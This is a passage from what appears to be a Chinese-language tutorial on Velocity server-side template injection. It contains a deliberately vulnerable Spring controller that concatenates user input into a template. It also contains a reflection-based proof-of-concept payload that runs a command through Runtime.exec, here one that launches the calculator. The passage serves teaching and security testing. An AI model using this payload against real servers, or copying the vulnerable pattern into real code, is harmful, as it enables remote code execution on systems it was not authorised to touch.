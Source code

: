 第二：编写VelocityController

```plain
package com.example.javasecssti;

import org.apache.velocity.VelocityContext;
import org.apache.velocity.app.Velocity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;

import java.io.StringWriter;

@Controller
public class VelocityController {
    @RequestMapping("/ssti/velocity")
    @ResponseBody
    public String velocity1(@RequestParam(defaultValue="nth347") String username) {
        String templateString = "Hello, " + username + " | Full name: $name, phone: $phone, email: $email";

        Velocity.init();
        VelocityContext ctx = new VelocityContext();
        ctx.put("name", "Nguyen Nguyen Nguyen");
        ctx.put("phone", "012345678");
        ctx.put("email", "nguyen@vietnam.com");

        StringWriter out = new StringWriter();
        // 将模板字符串和上下文对象传递给Velocity引擎进行解析和渲染
        Velocity.evaluate(ctx, out, "test", templateString);

        return out.toString();
    }

}
```

第三：启动测试  
poc

```plain
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc")
```

[![](assets/1701606782-48d331a59570aac1cd6381d552afab86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172926-7b04d2fe-7a2b-1.png)  
命令执行成功，弹出计算器
